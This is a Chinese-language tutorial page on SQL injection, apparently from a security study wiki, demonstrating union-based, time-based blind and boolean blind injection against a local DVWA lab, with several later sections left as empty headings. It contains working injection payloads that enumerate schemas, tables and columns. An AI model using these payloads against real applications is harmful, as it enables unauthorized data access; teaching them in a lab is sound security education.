

# SQL注入原理
?> 在学习SQL注入之前，你需要掌握[SQL基础](SQL)部分。

SQL注入是注入攻击的一种，攻击者可以执行恶意SQL语句。利用SQL注入漏洞，攻击者可以检索、添加、修改和删除数据库中的记录，甚至可以获取数据库服务器权限。


## SQL注入类型

### 联合查询注入

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

1. 寻找注入点，判断是否存在注入

   尝试添加单引号。如果提示语法错误，说明可能存在注入漏洞。
   
   ```
   id=1'
   ```
   错误信息
   
   ```
   You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1
   ```
   产生语法错误的原因，SQL语句多了单引号，无法正确闭合。
   ```sql
   SELECT first_name, last_name FROM users WHERE user_id = '1'';
   ```

2. 判断字段数

   使用`ORDER BY`查询语句，采用二分法，得字段数为2。
   ```
   id=1' order by 1%23 //正常
   id=1' order by 2%23，//正常
   id=1' order by 3%23 //报错
   ```

3. 判断显示位

  ?> 令`id=-1`，即第一个查询语句返回结果为空，在只显示一条结果的情况下，可以展示我们构造的第二个查询语句结果。另外，显示内容字段位置，称之为`显示位`。
  ```
  http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=-1' UNION SELECT 1,2%23&Submit=Submit#
  ```
  显示位是1和2
  

4. 读取内容

   - 数据库

     ```
     http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=-1' union select 1,group_concat(schema_name)+from+information_schema.schemata%23&Submit=Submit
     ```

   - 表名

     ```
     http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=-1' UNION SELECT 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema= database()#&Submit=Submit
     ```

   - 字段名

     ```
     http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=-1%27%20UNION%20SELECT%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_schema=database()%20AND%20table_name=%27users%27%23&Submit=Submit
     ```

### 报错注入

### 盲注

盲注，特点是页面不显示查询结果和错误信息。

#### 基于时间的盲注

if(条件，成立，不成立)
```sql
mysql> select if(2>1,sleep(5),666);
+----------------------+
| if(2>1,sleep(5),666) |
+----------------------+
|                    0 |
+----------------------+
1 row in set (5.00 sec)
```

```
id=1’ and if(ascii(substr(database(),1,1))>100,sleep(1),2=1)%23
```

#### 基于布尔的盲注

```
id=1' and (select ascii(substr(database(),2,1))>114)%23
```

条件成立，页面显示正常，否则不正常

### 带外通道注入

### 二次注入

### 宽字节注入

## 参考资料

- PortSwigger，[SQL Injection](https://portswigger.net/web-security/sql-injection)
- OWASP，[SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [The SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)

